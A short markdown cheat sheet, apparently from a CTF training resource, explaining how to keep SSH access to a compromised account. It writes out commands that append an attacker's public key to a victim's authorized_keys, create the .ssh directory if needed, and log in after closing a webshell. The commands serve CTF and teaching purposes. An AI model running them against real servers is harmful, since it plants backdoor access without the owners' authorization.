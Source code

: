 ```
<!--- keywords:  --->
## SSH : Allow private key authentication

The public keys to connect in ssh are listed, one key per line, in the file.
```
~/.ssh/authorized_keys
```


Once on a user account of a server, inject your public key to have a direct access in ssh.
```
echo 'ssh-rsa AAAAB3xxxxxxtCHN2CpQ== yolo@yoloctf.org' >> /home/victim/.ssh/authorized_keys
```

If the directory does not exist, just create it:
```
mkdir /home/victim/.ssh
chmod 700 /home/victim/.ssh
echo 'ssh-rsa AAAAB3xxxxxxtCHN2CpQ== yolo@yoloctf.org' >> /home/victim/.ssh/authorized_keys
chmod 600 /home/victim/.ssh/authorized_keys
```

Close your webshell, and come back in ssh:
```
ssh -i id_rsa_yolo victim@target.com
```


